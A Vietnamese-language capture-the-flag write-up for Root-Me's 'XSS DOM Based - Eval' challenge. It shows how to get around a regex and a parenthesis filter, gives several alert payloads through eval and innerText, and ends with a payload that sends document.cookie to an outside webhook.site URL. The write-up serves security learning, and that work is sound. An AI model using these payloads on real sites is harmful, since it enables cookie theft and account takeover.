## XSS DOM Based - Eval

Challenge: http://challenge01.root-me.org/web-client/ch34



Ở đây ta cần nhập 1 phép tính, và nếu như nhập sai định dạng nó sẽ báo: 



Đúng định dạng của nó: 



Xem code ta thấy có 2 sink ở đây gồm `eval` và `innerText`



Trước tiên là phải bypass regex đầu vào, ở đây regex chỉ check đối với phép tính đầu tiên, sau khi đúng phép tính đầu tiên thì các kí tự tiếp theo không cần theo regex nữa: `1+1,a`



Nhưng bị filter với `()` - cái này thì có thể thay thế dễ dàng bởi ``` ` ```: 



Ok, bây giờ ta cần tìm ra cách để thực thi JS: 

Đầu tiên là theo sink của `eval`:

Cách 1: ``1+1+[alert`1`]``:



Cách 2: ``1*1+";alert`1`;"`` cách này có thể thay thế `"` bằng `'`



Cách 3: ``1+1,alert`1` ``



Cách 4: ``1+1`${alert`1`}` ``

Tiếp theo ta có thể khai thác theo sink của `innerText`:

mình tham khảo ở: https://nhienit5.wordpress.com/2023/11/20/xss-dom-based-eval/

``2+2/*';alert`2`//*/``



Phân tích 1 tí theo như mình hiểu:

Đầu tiên ý tưởng là dùng `'` để kết thúc phần `innerText` và payload sẽ được tiêm sau đó

Thứ 2, nếu chỉ dùng `'` thì sẽ bị báo lỗi vì `'` dùng để kết thúc chuỗi, mà như vậy sẽ không có dấu `)` của `eval` nên nó báo lỗi:



Nên ta dùng `/**/` để comment `'` với ý chỉ comment thì `eval` nó sẽ không thực thi vì vậy phép tính vẫn chỉ là `2+2` 

Nhưng khi đưa xuống `innerText` thì nó vẫn thoát ra được và đoạn ``alert`2` `` trở thành 1 đoạn code JS ở ngoài



Và đoạn `//` chỉ mục đích comment đoạn code phía sau

Theo những cách đó ta có thể điều hướng trang ra ngoài, và payload cuối cùng: 

``1+1,  document.location.href="https://webhook.site/07033ffb-793e-44dd-b057-35ae215ce803/?source="+document.cookie``

